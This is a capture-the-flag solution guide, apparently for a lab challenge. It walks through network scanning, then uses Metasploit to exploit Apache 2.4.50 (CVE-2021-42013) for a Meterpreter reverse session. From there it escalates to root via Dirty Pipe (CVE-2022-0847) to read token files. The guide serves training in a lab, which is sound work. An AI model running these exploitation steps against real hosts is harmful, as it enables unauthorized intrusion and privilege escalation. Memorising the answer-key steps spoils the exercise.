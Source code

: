 # You'll Find A Way! 

*Solution Guide*

## Overview

This solution guide walks you through finding and exploiting vulnerable services to obtain challenge tokens. All answers for *You'll Find A Way!* are generated dynamically. The format for the answers is a first name, followed by a last name and then a two digit number. The format is CamelCase with no spaces. For example: `JohnDoe23`.

## Question 1

### Network discovery
1. Check your IP address on the `analyst` VM: `ip a`

2. Now that you know your IP address, scan the network using `nmap` to see which additional hosts and open ports are available.

   Since your IP address is in the `10.5.5.0` network and you have a subnet mask of `/24`, use the following command to scan the network: `nmap -sV 10.5.5.0/24`

   The purpose of the `-sV` parameter is to determine the version of the service running on the ports discovered on each host. Here is a screen capture of a similar output. **Your IP addresses might be different**.

![Image 1](./img/img_1.png)

>**Note:** For the rest of this guide, we will use `10.5.5.120` as the `analyst` box IP address and `10.5.5.56` as the IP address for the `outdated-xeno` box. Your IPs might be different than the ones found in this guide. 

There is an additional box (`outdated-xeno`) with two services on different open ports: ssh on port `22` 	and http on `80`. The service running on port `22` is `OpenSSH version 9.0p1` and the service running on port `80` is `Apache version 2.4.50`. 

4. Since port 80 is open, navigate to `http://10.5.5.56:80` on Firefox and notice the website is under construction. 

### Scanning discovered IP for vulnerabilities

>OpenVAS is stopped on startup to avoid consuming resources.

1. Using the information gathered above, scan the IP address you found for any known vulnerabilities. First, start OpenVAS using the following command: `sudo gvm-start`
1. Once OpenVAS starts, it should open the web interface automatically. If it didn't, then open Firefox and navigate to the following URL: `https://127.0.0.1:9392` and use the provided OpenVAS credentials.
1. Navigate to the `Scans` tab. Hover over the "magic wand" on the upper left, then click **Task Wizard**. Now, you can enter the IP you discovered (`10.5.5.56` in this guide) and click **Start Scan**. This will automatically begin to scan the provided IP address for vulnerabilities. 
4. The scan should take less than 15 minutes. The progress of the scan is shown on the **Scans** tab, under **Tasks**.  To see the vulnerabilities found, hover the **Scans** tab and click **Vulnerabilities**. 

5. Once the scan finishes, on the **Vulnerabilities** tab,  notice there is a **High Severity Vulnerability** found related to the **Apache HTTP Server 2.4.49 - 2.4.50**. If you select this vulnerability, you can see valuable information, including the CVE related to this vulnerability. In this case, the **CVE is CVE-2021-42013**. This vulnerability allows an attacker to achieve remote code execution (RCE). Let's get to work. 

### Apache 2.4.50 vulnerability exploit

1. Since you know the vulnerability allows RCE, let's see if Metasploit has an exploit we can use. Let's open metasploit with the following command: `msfconsole`
2. Once metasploit opens, use the search command to see if there is an exploit for the CVE you found: `search CVE-2021-42013`
3. Great news, you found two exploits. By reading the **Description**, the first one looks like it would help us better because the other one says it is just a scanner. Enter the following command: `use 0`
4. Let's see how to configure this exploit to work correctly: `show options`
5. We want to focus first on the ones that are `Required` such as RHOSTS, RPORT and LHOST. `RHOSTS` stands for `Remote Hosts`, `RPORT` stands for `Remote Port` and `LHOST` stands for `Local Host`. To set the new values for this settings, type the following commands. 
```
set RHOSTS 10.5.5.56
set RPORT 80
set LHOST 10.5.5.120
```
6. Since the port doesn't require negotiating any SSL for outgoing connections, you need to also change the `SSL` setting: `set SSL false`

7. Now that the options are set, run the exploit: `run`

You should now have a Meterpreter session open.

### User navigation on Meterpreter

1. Now that you have a Meterpreter session, figure out which user you obtained access to: `getuid`
2. You have access to `user`. Since you know the first flag is on the `user`'s Desktop, you can navigate there with the following command: `cd /home/user/Desktop/`
3. See what files are there: `ls`
4. You will see a file named **token1.txt** and another one called **IMPORTANT.txt**. Read the contents of `token1.txt` first: `cat token1.txt`
   You found the first token on the `user` Desktop. 
5. Read the other file: `cat IMPORTANT.txt` 
6. Based on this document, the kernel version of this image is outdated. Do a quick Open Source Intelligence (OSINT) to find out what's wrong. You should find that this kernel version has a vulnerability known as **The Dirty Pipe** vulnerability (CVE-2022-0847). 
>Make sure to keep this Meterpreter session **open** since you will be using it in the second part of this challenge.

## Question 2

### The Dirty Pipe vulnerability

Exploiting The Dirty Pipe vulnerability allows overwriting data in local, arbitrary read-only files. This can lead to privilege escalation because unprivileged processes can inject code into root processes. We'll continue using our part Metasploit session to exploit this vulnerability.

1. From the same Meterpreter session you had open, run: `background`
   The `background` command sends your Meterpreter session to the background and returns you to the Metasploit console. Hence, if you type the following command, it will show you the running sessions. 
   Make sure to write down or remember your session ID: `sessions`
2. Having the previous session running in the background will allow you to run an additional exploit on that session. Here's how this works.
3. Start by searching for an exploit for The Dirty Pipe vulnerability: `search CVE-2022-0847`
4. Notice there is only one exploit to choose. Let's use it: `use 0`
5. Once you choose the exploit, you need to see how to configure it to work correctly. Let's start by seeing the options available: `show options`
6. The first setting we want to configure is the **SESSION**. Use the session ID you wrote down (or remembered) here. In our case, it was session ID `1`: `set SESSION 1`
7. Then, let's set the other **REQUIRED** field which is LHOST: `set LHOST 10.5.5.120`
8. Once you finish configuring your exploit options, run the exploit: `run`

### Root access obtained

1. You now have a new Meterpreter shell available; verify the current user: `getuid`
2. And, just like that, you are root! The description of the challenge tells you that the second flag should be on the `/root/` directory. Navigate there: `cd /root/`
3. To see what's in the directory, type: `ls`
4. You should see a file called **token2.txt**. Read its contents: `cat token2.txt`

...and you should now have the second flag.

